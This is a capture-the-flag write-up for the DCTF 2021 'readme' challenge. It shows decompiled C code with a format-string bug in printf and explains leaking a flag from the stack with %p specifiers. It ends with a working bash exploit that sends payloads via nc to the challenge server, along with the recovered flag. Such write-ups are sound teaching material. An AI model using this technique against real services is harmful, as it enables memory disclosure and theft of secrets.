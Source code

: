 # DCTF 2021

## Readme

> 150
> 
> Read me to get the flag. 
> 
> `nc dctf-chall-readme.westeurope.azurecontainer.io 7481`
>
> [readme](readme)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Classic leak the flag from the stack with `%p`.

## Analysis

### Decompile with Ghidra

```c
void vuln(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x1c,__stream);
  fclose(__stream);
  puts("hello, what\'s your name?");
  fgets(local_38,0x1e,stdin);
  printf("hello ");
  printf(local_38);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}
```

The `vuln` function reads `flag.txt` into a local (`local_58`) stack array.

The vulnerability is the `printf(local_38)` statement that is missing a format string.  Exfiltrating the flag is as simple as passing `%nn$p` format strings where `nn` is the position in the stack; starting from `6` just increment until the output starts with `dctf` (`nn` = `8`), then continue until you have the flag.

If you're new to format-string exploits read this: [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).

## Exploit

```bash
#!/bin/bash

for((p=8;p<12;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    sed 's/.*00//' | \
    xxd -r -p | \
    rev
}
echo '}'
```

This `bash` script will `echo %8$p`, then `echo %9$p`, etc... into the challenge service serially (one by one), capturing the output (`grep`, `awk`), converting to text (`xxd`), and then finally reversing the string (`rev`, since x86_64 is little endian).

> `sed` is used to detect end of string.

Output:

```bash
# ./exploit.sh
dctf{n0w_g0_r3ad_s0me_b00k5}
```

